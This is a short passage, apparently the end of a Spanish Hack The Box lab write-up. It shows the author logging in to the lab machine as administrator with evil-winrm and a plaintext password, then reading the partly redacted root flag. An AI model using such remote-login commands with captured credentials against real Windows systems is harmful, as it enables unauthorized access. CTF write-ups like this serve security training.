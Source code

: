 Conectarnos como Administrator en la máquina víctima:
```bash
❯ evil-winrm -i 10.10.11.222 -u 'administrator' -p 'cahoner123'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
htb\administrator
```

¡Ya podemos leer el flag del usuario root!
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
9982bf9ef......a3c65de58
```
